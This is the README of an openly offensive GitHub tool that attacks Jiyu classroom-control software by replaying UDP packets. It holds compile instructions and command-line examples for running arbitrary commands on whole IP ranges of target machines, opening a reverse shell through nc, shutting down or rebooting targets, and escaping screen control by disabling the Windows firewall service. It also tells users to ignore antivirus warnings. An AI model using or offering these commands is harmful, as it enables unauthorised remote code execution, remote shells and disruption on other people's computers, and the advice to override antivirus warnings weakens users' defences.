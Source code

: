 # Jiyu-UDP-Attack-Cpp
A UDP replay attack code for Jiyu, written in C++.

中文文档见 [README_zh.md](https://github.com/pbw-Kevin/Jiyu-UDP-Attack-Cpp/blob/main/README_zh.md)

## Note
It may be misreported by antivirus software because it calls some system firewall services. Just ignore and add trust.  
Since the source code is stored in UTF-8 encoding, while Windows defaults to GB2312 for Chinese encoding, direct compilation may result in compilation failures or garbled output after compilation. Please use the provided compilation command directly or refer to the solutions within. `main.cpp` functions normally when encoded in GB2312.

## Compile
Required system: Windows  
Required minimum C++ version: C++11

Note: All the headers are already added into main.cpp manually. Therefore, you just need to copy/download main.cpp and compile it directly instead of adding header files.

Compile command:

### MSVC
```bash
cl main.cpp /std:c++14 /Fe:main.exe /source-charset:utf-8 /execution-charset:gb2312
```

### MinGW
```bash
g++ main.cpp -o main.exe -lws2_32 -std=c++14 -fexec-charset=GB2312
```

Note when using MinGW compiler:  
Make sure Windows-related library is in the library directory.  
Do not forget the compile argument `-lws_32`. If not using command line, add this argument to the compile options in your IDE.

## Usage
Start UI by simply run the program or call:
```bash
main
```

Or, run on command line:
```bash
main [-h(--help) |
  [-i(--ip) <IP>] [-p <Port>] [-m(--msg) <Message> | -c <Command>]
  [-l <Loop Count>] [-t <Loop Time Interval>]
  [-e <Extra Option>] [-ncport <NC Port>]]
```

Arguments:
| Argument | Description | Default |
| -------- | ----------- | ------- |
| `-h(--help)` | Show help text. | |
| `-i(--ip) <IP>` | Specify the IP of target. | |
| `-p <Port>` | Specify which port to listen to. | 4705 |
| `-m(--msg) <Message>` | Specify the message to send. | |
| `-c <Command>` | Command to run on target machine. | |
| `-e <Extra Option>` | Load extra option. | |
| `-l <Loop Count>` | Specify the loop count of the command. | 1 |
| `-t <Loop Time Interval>` | Specify the loop's interval time of the command, in seconds. | 22 |
| `-n(--ncport) <NC Port>` | Specify which port for `nc` command to listen to. | 8888 |

Available options for `<Extra Option>` of `-e` argument:
| Option | Description |
| ------ | ----------- |
| `r` | Reboot the target machine. |
| `s` | Shutdown the target machine. |
| `g` | Get your current IP address and the port which Student Terminal listens to. |
| `nc` | Reverse shell. Needs Internet access on target machine. Use command `exit` to exit. |
| `break` | Get out of screen control. Needs administrator access. |
| `continue` | Recover screen control. |

Target IP available for `<IP>` of `-i(--ip)` argument:
- A direct IP. eg. `192.168.1.1`
- An IP segment, ends with `/24`. eg. `192.168.1.1/24`
- An IP segment, represented by `-`. eg. `192.168.1.2-10`  
Note:  
Only the last number of an IP is availble to be a segment.  
This is illegal: `192.168.1-80.1`

### Examples
1. Get your IP address and the port which Student Terminal listens to:

```bash  
main -e g
```

2. Get out of screen control:

Needs administrator access, mainly for MpsSvc.
```bash
main -e break
```

3. Recover screen control:

```bash
main -e continue
```

4. Send message:

Send a piece of message "Hello!" to target machine with IP `192.168.1.1`:
```bash
main --ip 192.168.1.1 --msg "Hello!"
```

If the port which Student Terminal listens to is **4605**, use `-p <Port>` to specify the port. Send a piece of message "Hello!" to target machine with IP `192.168.1.12`:
```bash
main -i 192.168.1.12 -p 4605 -m "Hello!"
```

5. Run command:

Pop up a calculator for target machines with ip `192.168.1.12` to `192.168.1.137`:
```bash
main -i 192.168.1.12-137 -c calc.exe
```

If the command to run has space in it, use a pair of quote to wrap:
```bash
main -i 192.168.1.1 -c "taskkill /f /im chrome.exe"
```

6. Reverse shell:

The ip of target machine should **not** be a segment.
```bash
main -i 192.168.1.1 -e nc
```

7. Shutdown and reboot:

Shutdown:
```bash
main 192.168.1.1 -e s
```

Reboot:
```bash
main 192.168.1.1 -e r
```

8. Loop command:

Send message to target machines with IP `192.168.1.1` to `192.168.1.254`, continue to execute after 50s, totally 3 times:
```bash
main -i 192.168.1.1/24 -m "Hello!" -l 3 -t 50
```

## Header Guide & Contributing Guide
If you hope to call related interfaces of this code in your own code, or develop the source code by yourself, you can focus on related code in the `header` branch, which codes in different modules are separated in different headers, and refer others by headers.
See header docs: [Jiyu-UDP-Attack-Cpp Header Docs](https://github.com/pbw-Kevin/Jiyu-UDP-Attack-Cpp/blob/header/docs/en.md)

If you want to contribute to this code, you can raise an issue or make a pull request on the `header` branch~ If the pull request is merged, `main.cpp` will be updated in time!

## About
Inspired by: [ht0Ruial/Jiyu_udp_attack](https://github.com/ht0Ruial/Jiyu_udp_attack)

## License
[MIT License](https://github.com/pbw-Kevin/Jiyu-UDP-Attack-Cpp/blob/main/LICENSE)
